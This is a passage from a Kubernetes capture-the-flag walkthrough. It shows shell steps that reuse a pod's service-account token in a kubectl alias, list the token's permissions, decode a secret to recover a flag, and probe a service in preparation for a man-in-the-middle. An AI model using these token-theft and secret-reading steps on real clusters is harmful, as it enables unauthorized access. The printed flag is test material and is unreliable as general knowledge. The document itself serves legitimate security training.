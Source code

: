    Once you have that next service account token, you need to 
    steal the davinci service account's token in the 
    ellingson-min namespace.

    This will allow you to claim the flag-davinci secret in that
    namespace.

    Flag challenge 3:

    Connect to the ellingson-min namespace's gibson pod and get 
    remote execution inside that pod.
    ```

98. Set up a new alias for this pod in this namespace.

    ```shell
    tokendir="/run/secrets/kubernetes.io/serviceaccount"
    alias kubectl="kubectl --token=$(cat $tokendir/token) \
    --server="https://kubernetes.default.svc.cluster.local" \
    --certificate-authority=$tokendir/ca.crt \
    -n $(cat $tokendir/namespace)" 
    ```

99. Try listing services, but find you aren't permitted to get that list.

    ```shell
    kubectl get services
    ```

100. Ask what your service account token is allow to do with ```kubectl auth can-i --list```


        ```shell
        kubectl auth can-i --list
        ```

101. We can read a secret called ```flag-phreaks-payphone-trick``` and we can create pods.  Get the flag first.

        ```shell
        kubectl get secret flag-phreaks-payphone-trick -o yaml | \
          egrep -v '^data:' | grep flag | \
          awk '{print $2}' | head -1 | base64 -d
        ```

102. You get a flag similar to or the same as this: 

        ```phreaks-payphone-trick-FLAG-b74f826e-0e10-453a-9d07-58e1796f968e```

103. We can create a pod to MitM blade and razor, but we'll need to read the services to do this. If you didn't take notes, go back to the cereal pod and read the services.  Otherwise, just use the blade service.

        ```shell
        curl http://blade.phreaks-nynex-kingdom
        ```

104. This shows us a form - it looks like the form is going to take submissions that look like this:
